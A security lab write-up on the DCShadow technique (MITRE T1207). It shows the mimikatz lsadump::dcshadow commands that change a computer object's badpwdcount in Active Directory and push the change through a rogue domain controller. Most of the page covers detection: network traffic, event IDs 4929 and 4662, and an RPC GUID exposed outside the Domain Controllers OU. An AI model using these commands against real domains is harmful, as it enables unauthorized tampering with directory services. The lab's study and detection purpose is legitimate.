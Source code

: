```yaml
---
description: Defense Evasion
---
```


# T1207: DCShadow

DCShadow allows an attacker with enough privileges to create a rogue Domain Controller and push changes to the DC Active Directory objects.

## Execution

For this lab, two shells are required - one running with `SYSTEM` privileges and another one with privileges of a domain member that is in `Domain admins` group:

![](../.gitbook/assets/dcshadow-privileges.png)

In this lab, I will be trying to update the AD object of a computer `pc-w10$`. A quick way to see some of its associated properties can be achieved with the following powershell:

```csharp
PS c:\> ([adsisearcher]"(&(objectCategory=Computer)(name=pc-w10))").Findall().Properties
```

![](../.gitbook/assets/dcshadow-computer-properties.png)

Note the `badpwcount` property which we will try to change with DCShadow by setting the value to 9999:

{% code-tabs %}
{% code-tabs-item title="mimikatz@NT/SYSTEM console" %}
```csharp
mimikatz # lsadump::dcshadow /object:pc-w10$ /attribute:badpwdcount /value=9999
```
{% endcode-tabs-item %}
{% endcode-tabs %}

We can now push the change to the primary Domain Controller `DC-MANTVYDAS`:

{% code-tabs %}
{% code-tabs-item title="mimikatz@Domain Admin console" %}
```csharp
lsadump::dcshadow /push
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below are the screenshots of the above commands and their outputs as well as the end result, indicating the `badpwcount`value getting changed to 9999:

![](../.gitbook/assets/dcshadow-computer-properties-changed.png)

## Observations

As suggested by Vincent Le Toux who co-presented the [DCShadow](https://www.youtube.com/watch?v=KILnU4FhQbc), in order to detect this type of rogue activity, you could monitor the network traffic and suspect any non-DC hosts \(our case it is the PC-W10$ with `10.0.0.7`\) issuing RCP requests to DCs \(our case DC-MANTVYDAS with `10.0.0.6`\) as seen below:

![](../.gitbook/assets/dcshadow-traffic.png)

Same for the logs, if you see a non-DC host causing the DC to log a `4929` event \(Detailed Directory Service Replication\), you may want to investigate what else is happening on that system:

![](../.gitbook/assets/dcshadow-logs.png)

Current implementation of DCShadow in mimikatz creates a new DC and deletes its associated objects when the push is complete in a short time span and this pattern could potentially be used to trigger an alert, since creation of a new DC, related object modifications and their deletion all happening in 1-2 seconds time frame sound anomalous. Events `4662` may be helpful for identifying this:

![](../.gitbook/assets/dcshadow-createobject.png)

![](../.gitbook/assets/dcshadow-delete1.png)

![](../.gitbook/assets/dcshadow-delete2.png)

Per [Luc Delsalle](https://blog.alsid.eu/@lucd?source=post_header_lockup)'s post on DCShadow explanation, one other suggestion for detecting rogue DCs is the idea that the computers that expose an RPC service with a GUID of `E3514235–4B06–11D1-AB04–00C04FC2DCD2`, but do not belong to a `Domain Controllers` Organizational Unit, should be investigated. 

We see that our suspicious computer exposes that exact service:

![](../.gitbook/assets/dcshadow-services.png)

..but does not belong to a `Domain Controllers` OU:

```csharp
([adsisearcher]"(&(objectCategory=computer)(name=pc-w10))").Findall().Properties.distinguishedname
# or
(Get-ADComputer pc-w10).DistinguishedName
```

![Outputs for computer NOT belonging to DC OU and one belonging, respecitvely](../.gitbook/assets/dcshadow-ou-dc.png)

Below are the resources related to DCShadow attack. Note that there is also a link to youtube by a security company Alsid, showing how to dynamically detect DCShadow, so please watch it.

{% embed url="https://attack.mitre.org/wiki/Technique/T1207" %}

{% embed url="https://www.dcshadow.com/" %}

{% embed url="https://www.youtube.com/watch?v=KILnU4FhQbc" %}

{% embed url="https://www.youtube.com/watch?v=yWFUKwZaT\_4" caption="Dynamic Detection of DCShadow" %}

{% embed url="https://github.com/AlsidOfficial/UncoverDCShadow" %}

{% embed url="http://www.labofapenetrationtester.com/2018/04/dcshadow.html" %}

{% embed url="https://blog.alsid.eu/dcshadow-explained-4510f52fc19d" %}

